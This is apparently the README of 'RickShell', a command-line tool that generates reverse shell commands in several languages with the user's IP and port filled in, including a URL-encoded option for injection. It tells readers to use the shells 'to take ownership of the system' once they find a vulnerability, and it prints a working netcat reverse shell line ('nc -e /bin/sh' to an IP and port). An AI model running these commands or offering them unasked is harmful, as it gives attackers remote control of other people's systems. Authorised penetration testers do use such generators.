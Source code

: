 
# 🧬 RickShell  


    ⠀⠀⠀⠐⣦⣴⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⣻⣿⣿⣿⡄⠀⠀⣿⠀⠀⠀Rules are for fools, Morty!⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠈⠹⣯⣿⣿⡃⠀⠀⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⢀⣹⣟⣡⡤⠴⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⣠⡶⠋⢹⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣶⣿⣿⡄⠀⠀⠀
    ⠀⣼⠃⠀⠀⢀⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⣿⣿⡀⠀⠀
    ⢸⠇⠀⠀⠀⣼⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣶⣾⡟⣷⣂⣀⡤⠖
    ⠿⠊⠲⣶⠿⠛⠫⣶⣧⣀⣀⡀⠀⠀⠀⠀⣠⠞⠁⣴⣿⡿⠁⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⠀⠀⢀⡿⠀⠉⠉⣩⡿⠀⠀⠀⠉⠀⣼⣿⡿⠁⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⠀⠀⣼⠃⠀⠀⣰⠟⠀⢀⠀⠀⠀⢠⣿⣿⣁⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⢀⡼⠃⠀⠀⢴⣅⠀⠀⠉⠘⠲⠴⠟⠁⠈⠙⢷⡀⠀⠀⠀⠀⠀
    ⠀⠀⠀⣰⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇⠀⠀⠀⠀⠀
    ⠀⠀⠰⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠁⠀⠀⠀v1.3


use one of the reverse shell commands in this tool to take ownership of the system when you find a vulnerability that you can exploit ;-)

## 💡 HOW TO USE

`RickShell` command gives you the **top 10** most used shells. The tool will automatically type your ip address and a suitable port into the command.

### The following arguments can be used:

- `RickShell -p netcat` *netcat reverse shell commands.*

- `RickShell - p bash`   *bash reverse shell commands.*

- `RickShell -p php` *php reverse shell commands.* 

- `RickShell -p python` *python reverse shell commands.*

- `RickShell -p java` *java reverse shell commands.*
 
- `RickShell -p powershell`  *powershell reverse shell commands.*

- `RickShell -p telnet` *telnet reverse shell commands.*

---
_these commands automatically assign your ip address and port. 🪄_
 - e.g: `nc -e /bin/sh 192.168.100.23 4444  `

_but if you want to use a different ip and port, you can use the following arguments_

- `RickShell -ip 192.168.1.1 --port 4242`
- `RickShell -p bash -ip 192.168.1.1 --port 4242`  etc.
---
#### 🌐  if you are going to use it in the url, use the following command. this sets your shell command for the url (-ue)

- `RickShell -ue` / `RickShell -p bash -ue` / 
- `RickShell -ip 192.168.1.1 --port 4242 -ue` etc.

---

## 📜 Installation

`git clone https://github.com/Rickidevs/RickShell.git`

`cd RickShell`

`chmod +x setup.sh`

`./setup.sh`

---

## ⚖️  Disclaimer

_you are fully responsible for legal or illegal use. remember that this tool is designed for education_

---

✉️ Contact Me   - [Telegram](https://t.me/hackerrick)
